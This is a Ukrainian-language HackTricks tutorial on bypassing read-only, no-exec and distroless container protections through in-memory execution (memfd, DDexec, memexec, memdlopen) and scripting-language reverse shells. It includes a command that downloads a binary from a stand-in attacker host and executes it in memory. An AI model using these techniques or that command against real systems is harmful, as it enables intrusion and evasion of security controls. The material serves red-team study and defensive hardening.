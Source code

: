 # Bypass FS protections: read-only / no-exec / Distroless

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану в HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

<figure><img src="https://github.com/carlospolop/hacktricks/blob/ua/.gitbook/assets/image%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1).png" alt=""><figcaption></figcaption></figure>

Якщо вас цікавить **кар'єра хакера** і взламати невзламне - **ми шукаємо співробітників!** (_вимагається вільне володіння польською мовою, як письмово, так і усно_).

{% embed url="https://www.stmcyber.com/careers" %}

## Відео

У наступних відео ви знайдете техніки, згадані на цій сторінці, пояснені більш детально:

* [**DEF CON 31 - Дослідження маніпулювання пам'яттю Linux для прихованості та ухилення**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Приховані вторгнення з DDexec-ng та in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Сценарій тільки для читання / без виконання

Стає все більш поширеним знаходити лінукс-машини, які мають захист файлової системи **тільки для читання (ro)**, особливо в контейнерах. Це тому, що для запуску контейнера з файловою системою ro досить просто встановити **`readOnlyRootFilesystem: true`** в `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Однак, навіть якщо файлова система монтується як ro, **`/dev/shm`** все ще буде доступним для запису, тому це фактично означає, що ми можемо записувати дані на диск. Однак ця папка буде **монтуватися з захистом no-exec**, тому якщо ви завантажите бінарний файл сюди, ви **не зможете виконати його**.

{% hint style="warning" %}
З погляду червоної команди це ускладнює **завантаження та виконання** бінарних файлів, яких немає в системі (наприклад, backdoors або інструменти для переліку, такі як `kubectl`).
{% endhint %}

## Найпростіший обхід: Сценарії

Зверніть увагу, що я згадав про бінарні файли, ви можете **виконати будь-який сценарій**, якщо інтерпретатор знаходиться всередині машини, наприклад, **сценарій оболонки**, якщо присутній `sh` або **сценарій Python**, якщо встановлено `python`.

Однак цього недостатньо для виконання вашого бінарного backdoor або інших бінарних інструментів, які вам може знадобитися запустити.

## Обхід пам'яті

Якщо ви хочете виконати бінарний файл, але файлова система не дозволяє цього зробити, найкращий спосіб - **виконати його з пам'яті**, оскільки **захисти не застосовуються там**.

### Обхід FD + exec syscall

Якщо у вас є потужні скриптові двигуни всередині машини, такі як **Python**, **Perl** або **Ruby**, ви можете завантажити бінарний файл для виконання з пам'яті, зберегти його в дескрипторі файлу пам'яті (`create_memfd` syscall), який не буде захищений цими захистами, а потім викликати **системний виклик exec**, вказавши **fd як файл для виконання**.

Для цього ви можете легко використовувати проект [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Ви можете передати йому бінарний файл, і він згенерує сценарій на вказаній мові з **бінарним файлом стиснутим і закодованим у b64** з інструкціями для **декодування та розпакування** його в **fd**, створеного за допомогою виклику `create_memfd` syscall та виклику **exec** syscall для його запуску.

{% hint style="warning" %}
Це не працює в інших мовах сценаріїв, таких як PHP або Node, оскільки вони не мають жодного **стандартного способу виклику сирі системні виклики** з сценарію, тому неможливо викликати `create_memfd` для створення **дескриптора файлу пам'яті** для зберігання бінарного файлу.

Більше того, створення **звичайного дескриптора файлу** з файлом у `/dev/shm` не працюватиме, оскільки ви не зможете його запустити через застосування **захисту no-exec**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) - це техніка, яка дозволяє вам **змінювати пам'ять вашого власного процесу**, перезаписуючи його **`/proc/self/mem`**.

Отже, **керуючи кодом асемблера**, який виконується процесом, ви можете написати **шелл-код** та "мутувати" процес для **виконання будь-якого довільного коду**.

{% hint style="success" %}
**DDexec / EverythingExec** дозволить вам завантажувати та **виконувати** ваш власний **шелл-код** або **будь-який бінарний файл** з **пам'яті**.
{% endhint %}

```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```

Для отримання додаткової інформації про цю техніку перевірте Github або:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) - це природний наступний крок після DDexec. Це **демонізований shellcode DDexec**, тому кожного разу, коли вам потрібно **запустити інший бінарний файл**, вам не потрібно перезапускати DDexec, ви можете просто запустити shellcode memexec через техніку DDexec, а потім **спілкуватися з цим демоном, щоб передати нові бінарні файли для завантаження та запуску**.

Ви можете знайти приклад того, як використовувати **memexec для виконання бінарних файлів з PHP зворотним шелом** за посиланням [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

З аналогічною метою DDexec, техніка [**memdlopen**](https://github.com/arget13/memdlopen) дозволяє **легший спосіб завантаження бінарних файлів** в пам'ять для подальшого їх виконання. Це може навіть дозволити завантажувати бінарні файли залежностей.

## Обхід Distroless

### Що таке distroless

Контейнери Distroless містять лише **мінімальний набір компонентів, необхідних для запуску конкретного додатка або служби**, таких як бібліотеки та залежності виконання, але виключають більші компоненти, такі як менеджер пакетів, оболонка або службові програми.

Метою контейнерів Distroless є **зменшення поверхні атаки контейнерів шляхом усунення непотрібних компонентів** та мінімізація кількості вразливостей, які можуть бути використані.

### Зворотній шел

У контейнері Distroless ви можливо **навіть не знайдете `sh` або `bash`**, щоб отримати звичайну оболонку. Ви також не знайдете бінарних файлів, таких як `ls`, `whoami`, `id`... все, що зазвичай виконуєте в системі.

{% hint style="warning" %}
Отже, ви **не зможете** отримати **зворотню оболонку** або **провести перелік** системи, як зазвичай.
{% endhint %}

Однак, якщо компрометований контейнер запускає, наприклад, веб-додаток flask, то встановлено Python, і тому ви можете отримати **зворотню оболонку Python**. Якщо він запускається на node, ви можете отримати оболонку Node, і те ж саме з практично будь-якою **мовою сценаріїв**.

{% hint style="success" %}
Використовуючи мову сценаріїв, ви можете **провести перелік системи**, використовуючи можливості мови.
{% endhint %}

Якщо відсутні **захисти `read-only/no-exec`**, ви можете зловживати своєю зворотною оболонкою, щоб **записати свої бінарні файли в файлову систему** та **виконати** їх.

{% hint style="success" %}
Однак у таких контейнерах зазвичай існуватимуть ці захисти, але ви можете використати **попередні техніки виконання в пам'яті для їх обходу**.
{% endhint %}

Ви можете знайти **приклади** того, як **експлуатувати деякі вразливості RCE** для отримання **зворотних оболонок мов сценаріїв** та виконання бінарних файлів з пам'яті за посиланням [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо вас цікавить **кар'єра хакера** та взлам невзламного - **ми наймаємо!** (_вимагається вільне володіння польською мовою, як письмово, так і усно_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Вивчіть хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану в HackTricks** або **завантажити HackTricks у PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Дізнайтеся про [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github репозиторіїв.

</details>
